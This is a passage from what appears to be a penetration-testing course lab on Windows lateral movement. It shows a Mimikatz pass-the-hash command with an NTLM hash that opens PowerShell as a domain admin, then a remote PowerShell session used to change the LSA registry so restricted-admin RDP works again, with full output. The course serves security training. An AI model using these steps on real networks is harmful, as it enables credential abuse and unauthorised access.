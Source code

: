 With restricted admin mode disabled, we'll verify that we indeed can no longer log in by first logging out of the RDP session on appsrv01 and immediately relaunching it from Mimikatz. When we click _Connect_, we are presented with the error message shown in Figure 4, which indicates that restricted admin mode is disabled:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/lm/a620580cbc8a1870980a9ef3a9545590-lm_rdp_ramblocked.png" alt="Figure 4: RDP login with restricted admin mode is blocked"><figcaption><p>Figure 4: RDP login with restricted admin mode is blocked</p></figcaption></figure>

At this point, we are able to fully demonstrate our lateral movement. To re-enable restricted admin mode, we are going to first launch a local instance of PowerShell on the Windows 10 machine in the context of the _admin_ user with Mimikatz.

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
user    : admin
domain  : corp1
program : powershell
impers. : no
NTLM    : 2892d26cdf84d7a70e2eb3b9f05c425e
  |  PID  4312
  |  TID  9320
  |  LSA Process was already R/W
  |  LUID 0 ; 39872945 (00000000:026069b1)
  \_ msv1_0   - data copy @ 0000024C0DD4C700 : OK !
  \_ kerberos - data copy @ 0000024C0DDC1C88
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024C0E0C13F8 (32) -> null
```

> Listing 6 - Pass the hash to start PowerShell in the context of the admin user

From this PowerShell prompt, we'll use the Enter-PSSession cmdlet and supply the appsrv01 hostname as the -Computer argument. This will provide us with shell access to our target machine.

With this access, we'll create the registry entry as shown in Listing 7.

```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

DisableRestrictedAdmin : 0
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentCont
                         rolSet\Control\Lsa
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentCont
                         rolSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry

[appsrv01]: PS C:\Users\admin\Documents> Exit
PS C:\Windows\system32>
```
